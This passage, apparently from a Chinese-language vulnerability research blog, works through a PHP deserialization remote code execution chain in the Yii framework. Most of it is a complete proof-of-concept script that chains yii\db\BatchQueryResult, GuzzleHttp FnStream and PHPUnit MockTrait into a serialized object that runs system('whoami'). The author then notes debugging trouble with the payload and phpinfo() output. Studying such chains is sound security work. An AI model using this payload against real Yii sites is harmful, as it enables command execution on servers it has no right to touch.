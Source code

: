 修改 poc

```php
<?php

namespace PHPUnit\Framework\MockObject{
    class MockTrait {
        private $classCode = "system('whoami');";
        private $mockName = "anything";
    }
}

namespace GuzzleHttp\Psr7 {
    use PHPUnit\Framework\MockObject\MockTrait;
    class FnStream {
        var $_fn_close;

        function __construct() {
            $this->_fn_close = array(
                new MockTrait(),
                'generate'
            );
        }
    }
}

namespace yii\db {
    use GuzzleHttp\Psr7\FnStream;
    class BatchQueryResult {
        // 需要控制的成员属性
        private $_dataReader;

        function __construct() {
            $this->_dataReader  = new FnStream();
        }
    }

    $b = new BatchQueryResult();
    file_put_contents("poc.txt", serialize($b));
}
```

再次尝试, 报错了！！！这是修复了吗??，低版本也？  
![007](https://shs3.b.qianxin.com/butian_public/f3875fb1f0d9e43d619bae322ab8fa10e.jpg)

但是 phpinfo() 可以正常执行. 当我再回去看的时候. 我发现我**漏掉了最底下的报错信息**！！！。

先将 poc 复原到 phpinfo(); 可以看到虽然 throw 了, 但 phpinfo 正常执行. 不清楚是什么原因。我的猜想是: phpinfo 回显内容过大触发了分段传输. 我会继续研究这个问题.

![008](https://shs3.b.qianxin.com/butian_public/f9a9670fe2ac2a702fc964f0c90c8c740.jpg)

利用这个方法. 修改一下 poc，加上phpifnfo();
